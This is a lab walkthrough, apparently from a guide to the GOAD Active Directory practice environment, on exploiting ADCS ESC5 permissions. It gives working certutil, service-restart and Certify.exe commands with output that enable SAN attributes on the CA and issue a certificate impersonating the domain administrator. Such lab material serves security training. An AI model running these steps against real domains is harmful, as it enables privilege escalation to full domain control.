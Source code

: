 ## ESC5: Vulnerable PKI Object Access Control

ESC5 exploits weak permissions on PKI objects themselves, including the CA server and certificate templates container.

### Attack Vectors

1. **CA Server Object**: WriteProperty permission allows configuration changes
2. **Certificate Templates Container**: GenericWrite allows template creation
3. **Individual CA Objects**: Various dangerous permissions

Let's examine what we have in GOAD. Check CA object permissions in essos.local domain:

```bash
Get-ADObject "CN=ESSOS-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -Properties nTSecurityDescriptor

DistinguishedName : CN=ESSOS-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local
Name              : ESSOS-CA
ObjectClass       : pKIEnrollmentService
ObjectGUID        : 4f8bd644-2c29-418c-93f1-fe926f91f6b4

# In GOAD, khal.drogo has interesting permissions on the CA
```

### CA Configuration Modification

If you have WriteProperty, modify CA settings. Enable SAN in issued certificates:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

CertUtil: -setreg command completed successfully.
The command completed successfully.
```

Restart certificate services to apply changes

```bash
net stop certsvc && net start certsvc

The Certificate Services service is stopping.
The Certificate Services service was stopped successfully.
The Certificate Services service is starting.
The Certificate Services service was started successfully.

# Wait for services to fully restart
Start-Sleep -Seconds 10
```

Now we can request certificate with SAN from any template:

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /altname:upn:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : User
[*] Subject                 : CN=khal.drogo, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 12
```